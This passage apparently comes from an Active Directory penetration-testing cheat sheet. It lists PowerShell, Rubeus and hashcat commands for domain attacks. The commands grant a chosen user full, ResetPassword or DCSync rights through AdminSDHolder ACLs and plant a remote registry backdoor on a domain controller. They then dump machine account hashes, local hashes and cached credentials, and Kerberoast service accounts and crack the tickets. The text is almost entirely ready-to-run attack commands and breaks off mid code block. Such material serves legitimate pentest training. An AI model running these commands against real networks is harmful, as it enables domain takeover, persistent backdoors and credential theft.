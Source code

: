   ```powershell
  Add-ObjectAcl -TargetADSprefix "CN=AdminSDHolder,CN=system" -PrincipalSamAccountName User01 -Rights All -verbose

- Assign ResetPassword rights to (User01) account on AdminSDHolder container

  ```powershell
  Add-ObjectAcl -TargetADSprefix "CN=AdminSDHolder,CN=System" -PrincipalSamAccountName student379  -Rights ResetPassword -verbose

  Set-DomainUserPassword -Identity testuser -AccountPassword (ConvertTo-SecureString "Pass@123" -AsPlainText -Force) -Verbose

- Check if "User01" has any ACL set on "Domain Admins" group 

  ```powershell
  Get-ObjectAcl -SamAccountName "Domain Admins"  | ?{$_.IdentityReference -like "*User01*"}

- Assign DCSync right to "User01" on the current domain
  ```powershell
  Add-ObjectAcl -TargetADSpath "DC=dollarcorp,DC=moneycorp,DC=local" -PrincipalSamAccountName User01 -Rights DCSync -Verbose

- Assign Full rights to the root domain

  ```powershell
  Add-ObjectAcl -TargetADSpath "DC=dollarcorp,DC=moneycorp,DC=local" -PrincipalSamAccountName User01 -Rights ALL -Verbose

**ACL - Security Descriptors & Remote Registry**  

  - Add remote registery backdoor to access the DC without admin rights

    ```powershell
    Add-RemoteRegBackdoor -ComputerName dcorp-dc -user orangesecurity\user01
    Get-RemoteMachineAccountHash -Computer dcorp-dc -verbose
    Get-RemoteLocalAccountHash -Computer dcorp-dc -verbose
    Get-RemoteCachedCredential -Computer dcorp-dc -verbose

# Domain Privilege Escalation

**Kerberosting**

  - Identify the user/service accounts vulnerable to kerberosting attack

    ```powershell
    Get-NetUser -spn | select cn, samaccountname, serviceprincipalname

  - Method 1: Fetch TGS of the vulnerable account (SPN name should match extactly as in the user attribute)

    ```powershell
    .\Rubeus.exe kerberoast /spn:"MSSQLSvc/sqlserver.organicsecurity.local:1433" /user:dcorp\sqladmin /domain:organicsecurity.local /dc:dc.organicsecurity.local  format:hashcat /outfile:mssqlsvc_tgs.hash

    Get-DomainSPNTicket -SPN "MSSQLSvc/dcorp-mgmt.organicsecurity.local" -OutputFormat Hashcat

  - Crack the kerberost hash using Hashcat utility
    ```powershell
    hashcat.exe -a 0 -m 13100 sql_kerb.txt 500-worst-passwords.txt


  - Method 2: Extract TGS from memory and crack it using tgsrepcrack
    ```powershell
  ```